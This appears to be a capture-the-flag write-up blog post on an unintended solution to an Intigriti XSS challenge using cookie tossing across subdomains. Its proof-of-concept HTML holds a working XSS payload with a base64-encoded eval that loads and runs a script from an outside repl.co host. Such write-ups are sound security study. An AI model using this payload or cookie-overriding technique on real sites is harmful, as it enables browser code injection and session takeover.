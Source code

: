 ```yaml
---
layout: post
date: 2021-08-23 00:00
title: Inti XSS unintended solution
summary: cookies and milk
---
```


Unintended way to solve the challenge

## Two things you need to Know (Gotcha's):
- Any subdomain can set cookie for all subdomains of it's parent domain.
- If two cookie with same name exists, the cookie with more closest path is prefered.

##Steps:
1. Using any previous XSS on intigritii challenges create a cookie named *username* set it's **domain** attribute as
	**intigriti.io** and **path** attribute as **/challenge/cooking.html**

2. Redirect to *https://challenge-0821.intigriti.io/*


## POC code:
 ```HTML
	<!DOCTYPE html>
	<html>
	  <body>
	    <script>
	      location = "https://javascript.challenge-0121.intigriti.io/?r=j%26%23x41;vascript:eval(atob(`eD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTt4LnNyYz0iaHR0cHM6Ly9jeWJlcnBvc3NpYmxlYXhpcy5jeXBoM3IxMzM3LnJlcGwuY28vc2NyaXB0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==`));//%0aid=origin";
	    </script>
	  </body>
	</html>
 ```

## Resource
https://speakerdeck.com/filedescriptor/the-cookie-monster-in-your-browsers
